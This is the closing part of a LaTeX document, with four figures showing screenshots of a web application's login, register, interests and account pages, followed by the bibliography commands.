\begin{figure}[ht!]
  \begin{center}
    \fbox{
\includegraphics[width=.9\linewidth]{screens/login.png}}
    \caption{Login page}
    \label{figure:login}
  \end{center}
\end{figure}

\begin{figure}[ht!]
  \begin{center}
    \fbox{
\includegraphics[width=.9\linewidth]{screens/register.png}}
    \caption{Register page}
    \label{figure:register}
  \end{center}
\end{figure}
  
\begin{figure}[ht!]
  \begin{center}
    \fbox{
\includegraphics[width=.9\linewidth]{screens/interests.png}}
    \caption{Interests page}
    \label{figure:interests}
  \end{center}
\end{figure}
  
\begin{figure}[ht!]
  \begin{center}
    \fbox{
\includegraphics[width=.9\linewidth]{screens/account.png}}
    \caption{Account page}
    \label{figure:account}
  \end{center}
\end{figure}
  
% bibliography
\bibliographystyle{plainurl}
\bibliography{references}

\end{document}